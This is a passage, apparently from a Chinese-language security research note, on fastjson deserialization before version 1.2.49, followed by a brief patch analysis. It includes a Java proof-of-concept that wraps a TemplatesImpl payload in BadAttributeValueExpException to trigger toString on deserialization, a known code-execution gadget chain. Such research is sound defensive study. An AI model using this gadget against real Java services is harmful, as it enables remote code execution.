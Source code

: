 ### 拓展

fastjson<1.2.49时,我们可以通过`BadAttributeValueExpException`来触发他的`toString`方法

```java
        JSONObject json=new JSONObject();
        json.put("asda",tools.generateTemplatesImpl());
 
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,json);
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("JSON.SER"));
        out.writeObject(poc);
        ObjectInputStream in=new ObjectInputStream(new FileInputStream("JSON.ser"));
        in.readObject();
```

在1.2.49时,jsonObject类重写了readObject方法

![image-20220226144113965](img/image-20220226144113965.png)

重写了`resolveClass`方法,并且进行了`checkAutoType`检查

![image-20220226144214079](img/image-20220226144214079.png)



###  补丁分析
